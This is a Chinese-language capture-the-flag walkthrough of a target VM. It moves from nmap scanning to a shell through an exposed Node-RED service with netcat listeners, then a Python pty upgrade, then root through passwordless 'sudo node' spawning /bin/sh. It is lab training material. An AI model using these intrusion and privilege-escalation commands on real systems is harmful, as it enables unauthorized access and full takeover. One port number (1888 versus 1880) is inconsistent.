

## 复盘*

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/J91VS4J4BM#ZRRl4XDDwtvM)


## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan 
```


创建nmapscan文件夹用来存放nmap扫描结果


#### 主机探测

```
nmap -sn 192.168.23.0/24
```


确定靶机ip：

192.168.23.142


#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.23.142 -oA ./nmapscan/ports
```


开放了：

- 22 ssh
- 80 http
- 1888 vsat-control


#### 提取端口信息

```
ports
```


#### 详细结果扫描

```
nmap -sT -sC -sV -O -p 22,80,1880 192.168.23.142 -oA ./nmapscan/detail
```


分析：

- 22 ssh OpenSSH 8.4p1
- 80 http Apache httpd 2.4.56
- 1880 http Node.js Express framework


### 80端口

### 访问192.168.23.142:80


apache主页

查看源码无信息


#### dirsearch目录扫描

```
dirsearch -u http://192.168.23.142
```


无结果


#### gobuster目录扫描

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.23.142 -x php,txt
```


无结果


### 1880端口

#### 访问192.168.23.142:1880


Node-RED


#### 利用node-RED创建TCP输入节点，执行节点和输出节点实现数据传输

输入节点


执行节点


输出节点


#### 本地开启监听

```
nc -lvp 8800
nc -lvp 8801
```


## 提权

### python转换终端

```
python -c "import pty;pty.spawn('/bin/bash')"
```


### 得到第一个flag

```
ls
cat user.txt
```


### 执行sudo -l

```
sudo -l
```


无密码执行node


### node提权

[GTFOBins](https://gtfobins.github.io/)

```
sudo node -e 'require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
whoami
```




### 得到第二个flag

```
cd /root
ls
cat root.txt
```

